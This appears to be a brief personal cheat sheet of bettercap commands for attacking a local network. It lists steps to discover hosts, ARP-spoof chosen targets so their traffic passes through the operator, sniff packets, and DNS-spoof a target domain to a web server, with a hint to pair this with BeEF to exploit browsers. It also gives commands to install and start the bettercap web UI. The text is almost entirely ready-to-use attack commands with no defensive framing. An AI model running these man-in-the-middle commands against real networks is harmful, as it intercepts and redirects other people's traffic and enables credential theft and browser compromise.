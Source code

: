 sudo bettercap
net.probe on

## see devices
net.show   // grab IP's

# ARP spoofing - route all traffic through you
## set target
set arp.spoof.targets <IP>
arp.spoof on
help arp.spoof

## sniff packets
net.sniff on

# DNS spoofing
set dns.spoof.domains <target domain>
## start an apach2 service and get it's IP
dns.spoof on
## use with the Beef package to exploit browser


# UI
# WARNING: replaces entire system caplet folder every time
## install
sudo bettercap -eval "caplets.update; ui.update; q"

## start
sudo bettercap -caplet http-ui


